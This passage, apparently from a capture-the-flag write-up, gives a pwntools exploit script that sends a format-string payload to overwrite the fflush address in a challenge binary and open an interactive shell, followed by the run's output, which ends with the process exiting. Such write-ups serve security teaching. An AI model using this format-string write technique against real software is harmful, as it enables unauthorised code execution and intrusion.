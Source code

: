 ```
#Import pwntools
from pwn import *

#Establish the target process, or network connection
target = process('./32_new')
#target = remote('163.172.176.29', 9035)

#Attach gdb if it is a process
#gdb.attach(target, gdbscript='b *0x080487dc')

#Print the first line of text
print(target.recvline())

#Prompt for input, to pause for gdb
#raw_input()

#Establish the addresses which we will be writing to
fflush_adr0 = p32(0x804a028)
fflush_adr1 = p32(0x804a029)
fflush_adr2 = p32(0x804a02b)

#Establish the amount of bytes needed to be printed in order to write correct value
flag_val0 = b"%185x"
flag_val1 = b"%892x"
flag_val2 = b"%129x"

#Establish the necessary inputs for our input, so we can write to the addresses
fmt_string0 = b"%10$n"
fmt_string1 = b"%11$n"
fmt_string2 = b"%12$n"

#Form the payload
payload = fflush_adr0 + fflush_adr1 + fflush_adr2 + flag_val0 + fmt_string0 + flag_val1 + fmt_string1 + flag_val2 + fmt_string2

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

When we run it:

```
$    python3 exploit.py 
[+] Starting local process './32_new': pid 60110
b'Hello baby pwner, whats your name?\n'
[*] Switching to interactive mode
Ok cool, soon we will know whether you pwned it or not. Till then Bye (\xa0\x04)\xa0\x04+\xa0\x04                                                                                                                                                                                  8048914                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ffae34e8                                                                                                                         f7f84d50
[*] Process './32_new' stopped with exit code 1 (pid 60110)
```